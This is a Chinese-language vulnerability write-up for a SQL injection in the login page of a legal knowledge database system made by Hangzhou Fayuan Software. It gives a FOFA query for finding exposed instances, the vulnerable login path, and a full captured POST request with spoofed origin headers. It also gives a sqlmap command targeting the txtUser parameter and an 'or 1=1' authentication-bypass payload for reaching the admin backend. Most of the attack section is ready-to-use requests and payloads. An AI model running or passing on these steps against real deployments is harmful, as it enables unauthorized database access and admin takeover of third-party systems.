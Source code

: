 # 杭州法源软件 法律知识数据库系统 SQL注入漏洞

## 漏洞描述

杭州法源软件开发有限公司开发的实践教学平台系统下的法律知识数据库系统登录前台存在通用SQLi漏洞

## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 法律知识数据库系统

## FOFA

> [!NOTE]
>
> icon_hash="2018105215" || title="实践教学平台 - 杭州法源软件开发有限公司"

## 漏洞复现

进入页面如下

![](http://wikioss.peiqi.tech/vuln/fy-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

出现漏洞的Url为

```
http://xxxxxxx/JusRepos/ui/login.aspx
```

![](http://wikioss.peiqi.tech/vuln/fy-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

抓取登录的请求包

```
POST /JusRepos/ui/login.aspx HTTP/1.1
Host: xxx.xxx.xxx.xxxx
Content-Length: 362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=0upclbweiokwx4qnkpfzumir
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTE4NTUyMzg5NDNkZBLjR6E85W4xvkheqS5g7gOsMdeop3Xfh1BwnTSCbV7z&__VIEWSTATEGENERATOR=E3BBEDB7&__EVENTVALIDATION=%2FwEdAATFHpXckaPEvZEyN%2BNhIQGTDFTzKcXJqLg%2BOeJ6QAEa2jPSlu16Yx4QbiDU%2BdddK1MwoKxxc3z27YmfD4jI4gVsV9%2FpN02jZyPKj4JeL7G5UVenPtL%2FK1en7XvhZG5vyHk%3D&txtUser=admin&txtPwd=123&btnSub=%E7%99%BB%E5%BD%95
```

其中注入的参数为 POST数据中的 **txtUser** 参数, 保存为文件使用 Sqlmap跑一下

```
sqlmap -r sql.txt -p txtUser
```

![](http://wikioss.peiqi.tech/vuln/fy-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

同时还存在着万能密码可以直接登录后台

```
user: 1' or 1=1 --
pass: peiqi
```

![](http://wikioss.peiqi.tech/vuln/fy-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)